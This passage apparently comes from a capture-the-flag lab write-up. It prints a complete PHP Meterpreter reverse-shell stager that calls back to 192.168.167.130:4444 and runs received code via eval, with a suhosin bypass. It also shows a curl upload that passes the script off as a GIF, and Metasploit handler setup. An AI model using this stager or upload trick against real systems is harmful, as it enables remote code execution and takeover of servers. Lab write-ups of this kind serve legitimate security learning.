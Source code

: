 /*<?php /**/ error_reporting(0); $ip = '192.168.167.130'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
{{< / highlight >}}

Next, we submit the payload with curl; it's also possible to do this via the browser, which I discovered only after working out the proper curl command:

{{< highlight markdown >}}
root@kali:~/hackinos# curl -H"Content-Type: multipart/form-data" -F "file=@gifrev.php;type=image/gif" -F"submit=Submit"  http://target:8000/upload.php -iv --show-error --fail 2>&1 | grep -i upload
                                 Dload  Upload   Total   Spent    Left  Speed
> POST /upload.php HTTP/1.1
File uploaded /uploads/?
{{< / highlight >}}

### Set Up a Handler

Setting LHOST/LPORT is pretty obvious, but it is also absolutely crucial to set the payload to match what we generated with msfvenom:`msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp`

Then set options as normal:

{{< highlight markdown >}}
setting LHOST/LPORT is pretty obvious, but it is also absolutely crucial to set the payload to match what we generated with msfvenom:

msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp

Then set options as normal:

msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.167.130  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
